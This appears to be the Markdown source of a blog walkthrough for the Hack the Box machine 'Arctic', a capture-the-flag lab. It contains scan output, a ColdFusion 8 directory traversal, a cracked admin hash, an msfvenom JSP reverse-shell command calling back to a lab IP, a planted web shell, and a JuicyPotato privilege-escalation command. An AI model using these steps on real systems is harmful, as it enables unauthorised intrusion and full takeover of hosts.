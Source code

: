 ```yaml
---
title: Arctic - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Arctic.png
---
```

---
title: 2024-10-12-Arctic - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Arctic.png
---
### Scan
```
--------------------Starting Vulns Scan-----------------------

Running CVE scan on all ports



PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows



Running Vuln scan on all ports
This may take a while, depending on the number of detected services..



PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
### Enum
8500
Directory Listing via http
research on cold. Fusion 8 admin portal, directory traversal for passwd hash
https://nets.ec/Coldfusion_hacking read up on it here. 
pwd hash `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03` - `happyday`
When logged in, we can look at mappings to see where to potentially place files. ` C:\ColdFusion8\wwwroot\CFIDE`
Once found, go to scheduled tasks, and use python link to serve jsp web executable shell from msfvenom.

`msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.11 lport=4321 -f raw -o pwn.jsp`

![Image](/assets/Screenshot 2024-10-05 at 8.57.19 AM.png)

Go back to initial directory, and nagivate to the web shell

![Image](/assets/Screenshot 2024-10-05 at 8.57.02 AM.png)

Shell ![Image](/assets/Screenshot 2024-10-05 at 8.57.38 AM.png)

SEImpersonate! Juicy pot! Rev shell!

make and go to temp dir. Move files over with certutil. then start listener for higher priv shell

`jp.exe -l 9999 -p rev.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}`

higher priv!![Image](/assets/Screenshot 2024-10-05 at 9.06.10 AM.png)

ROOT:47526c0fca39f552b54dc6b755bc82cb

### Init
### Priv Esc
